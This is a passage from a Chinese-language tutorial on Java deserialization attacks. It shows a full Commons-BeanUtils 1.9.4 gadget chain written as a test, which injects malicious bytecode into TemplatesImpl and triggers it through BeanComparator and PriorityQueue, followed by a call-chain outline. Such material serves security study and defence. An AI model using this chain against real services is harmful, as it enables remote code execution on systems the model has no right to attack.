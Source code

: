     > 答案在实例化 BeanComparator 时赋予其一个 JDK 自带的并且实现了 Serializable 接口的 comparator 即可，比如 `java.util.Collections$ReverseComparator` 和 `java.lang.String$CaseInsensitiveComparator` 等。

3. 那么最终补充完整的链条如下：
    ```java
    // CB 1.9.4 最新版本
    @Test
    public void testCB() throws Exception{
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 3. 构造 chain - BeanComparator
        // 通过反射来获取 java.util.Collections$ReverseComparator 或者 java.lang.String$CaseInsensitiveComparator
        Class<?> reverseComparatorClass = Class.forName("java.util.Collections$ReverseComparator");
        Constructor<?> rcConstructorField = reverseComparatorClass.getDeclaredConstructor();
        rcConstructorField.setAccessible(true);
        Comparator<?> reverseComparator = (Comparator<?>) rcConstructorField.newInstance();
        BeanComparator<Object> objectBeanComparator = new BeanComparator<>("outputProperties", reverseComparator);
    
        // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] objects = (Object[]) queueField.get(priorityQueue);
        objects[0] = templates;
    
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, objectBeanComparator);
    
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    }
    ```

4. 链大致如下：
    ```java
    /*
    	PriorityQueue.readObject()
    	    PriorityQueue.heapify()
    	        PriorityQueue.siftDown() -> siftDownUsingComparator
    	        	BeanComparator.compare()
    	        		PropertyUtils.getProperty()
    	        			TemplatesImpl.getOutputProperties()
    */
    ```
